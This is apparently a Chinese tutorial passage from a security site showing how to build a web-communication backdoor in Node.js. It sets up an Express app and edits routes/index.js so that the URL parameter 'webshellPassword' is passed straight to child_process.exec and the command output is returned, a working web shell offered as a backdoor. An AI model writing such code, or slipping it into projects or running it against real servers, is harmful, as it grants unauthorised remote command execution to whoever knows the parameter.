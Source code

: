 上节说道使用telnet通信当做后门，那么现在我们来说一说web通信后门。

这里是使用了express框架吗，玩过NodeJs的人都知道，基本是NodeJs必装框架。

安装express框架请自行百度。

首先我们建立一个网站目录用于存放后面程序。

express node如图：

![p10](http://static.wooyun.org//drops/20151201/201512011353239110310.png)

    
    
    cd node && npm install
    

完成后，基本就OK了。现在我们进入到routes目录。修改index.js文件。

    
    
    vim router/index.js
    

![p11](http://static.wooyun.org//drops/20151201/201512011353304141711.png)

这是之前的index.js代码，现在我们来修改它。

在第三行加入代码：

    
    
    var exec = require('child_process').exec;
    

删除第6行代码，修改为：

    
    
    exec(req.query.webshellPassword,function(error,stdout){
        if(error !== null){
            res.send(error);
            return false;
        }
        res.send(stdout);
    });
    

基本和上一节的telnet通信后门代码差不多。只是出现了如下代码：

    
    
    req.query.webshellPassword
    

`req.query`是NodeJs获取URL参数的。webshellPassword是参数名。他相当于PHP代码里的：`$_GET['webshallPassword'];`

完整代码如下：

![p12](http://static.wooyun.org//drops/20151201/201512011353322686412.png)

现在我们进入到node目录。运行它：

![p13](http://static.wooyun.org//drops/20151201/201512011353343312013.png)
